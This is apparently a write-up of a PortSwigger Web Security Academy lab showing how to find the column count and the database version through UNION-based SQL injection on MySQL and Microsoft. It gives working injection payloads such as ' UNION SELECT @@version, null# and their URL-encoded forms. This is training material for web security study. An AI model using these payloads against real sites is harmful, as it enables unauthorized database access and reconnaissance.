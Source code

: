 # Write-up: SQL injection attack, querying the database type and version in MySQL and Microsoft
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

This lab is very similar to the previous lab, but this time we are looking for the database type and version on a MySQL and Microsoft database.

On googling we found out that the query `SELECT @@version` can be used to get the database version.

Now, we need to determine the number of columns returned by the query. We can hit and try to find the number of columns returned by the query. In MySQL, we use `#` to comment out the rest of the query.

So, the link is like `/filter?category=Gifts'+UNION+SELECT+@@version#`
and the query is like
```sql
' UNION SELECT @@version#
```
Above returns an error, which means the number of columns is not 1. Now we can try for 2 columns.

The link is like `/filter?category=Gifts'+UNION+SELECT+@@version,null#`
```sql
' UNION SELECT @@version, null#
```
This query returns the page without any error, which means the number of columns is 2 and we can now also see the database version at the bottom of the page.

### Solution

The link is like `/filter?category=Gifts'+UNION+SELECT+@@version,null#`
```sql
' UNION SELECT @@version, null#
```
This query returns the page without any error, which means the number of columns is 2 and we can now also see the database version at the bottom of the page.

![alt text](img/2.png)